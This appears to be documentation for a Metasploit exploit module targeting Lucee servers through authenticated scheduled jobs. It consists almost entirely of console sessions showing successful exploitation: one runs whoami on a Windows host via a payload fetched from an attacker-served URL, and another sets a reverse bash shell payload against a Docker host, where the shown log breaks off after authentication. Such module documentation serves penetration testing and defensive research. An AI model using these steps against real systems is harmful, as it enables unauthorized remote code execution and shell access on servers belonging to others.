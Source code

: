 ```


Shell Banner:
Windows PowerShell running as user LOCAL SERVICE on HOMELAB-BINCE
Copyright (C) Microsoft Corporation. All rights reserved.
-----
          
PS C:\lucee\tomcat> 
```
### Successful exploitation of a Windows 10 host running Lucee 5.3.10.120 executing whoami
```
msf > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(multi/http/lucee_scheduled_job) > set CMD whoami
CMD => whoami
msf exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.164
RHOSTS => 10.0.0.164
msf exploit(multi/http/lucee_scheduled_job) > run

[+] Authenticated successfully
[*] Using URL: http://192.168.19.145:8081/UHn0jvUP2ZDtgwN.cfm
[+] Job UHn0jvUP2ZDtgwN created successfully
[+] Job UHn0jvUP2ZDtgwN updated successfully
[*] Executing scheduled job: UHn0jvUP2ZDtgwN
[+] Job UHn0jvUP2ZDtgwN executed successfully
[*] Attempting to access payload...
[*] Payload request received for /UHn0jvUP2ZDtgwN.cfm?RequestTimeout=50 from 192.168.19.131
[*] Attempting to access payload...
[+] Received 200 response from UHn0jvUP2ZDtgwN.cfm
[+] Output: nt authority\local service
[+] Exploit completed.
[*] Removing scheduled job UHn0jvUP2ZDtgwN
[+] Scheduled job removed.
[*] Server stopped.
[!] This exploit may require manual cleanup of 'C:\lucee\tomcat\webapps\ROOT\UHn0jvUP2ZDtgwN.cfm' on the target
[*] Exploit completed, but no session was created.
```

### Successful exploitation of a Docker host running Lucee 5.1.4.19 for a shell as Lucee
```
msf > use exploit/multi/http/lucee_scheduled_job 
[*] Using configured payload cmd/windows/generic
msf exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(multi/http/lucee_scheduled_job) > set target 1
target => 1
msf exploit(multi/http/lucee_scheduled_job) > set payload cmd/unix/reverse_bash
payload => cmd/unix/reverse_bash
msf exploit(multi/http/lucee_scheduled_job) > set LHOSTS 10.0.0.45
LHOST => 10.0.0.45
msf exploit(multi/http/lucee_scheduled_job) > set RHOSTS 10.0.0.33
RHOSTS => 10.0.0.33
msf exploit(multi/http/lucee_scheduled_job) > set PASSWORD admin123
PASSWORD => admin123
msf exploit(multi/http/lucee_scheduled_job) > run

[*] Started reverse TCP handler on 192.168.19.145:4444 
[+] Authenticated successfully
```
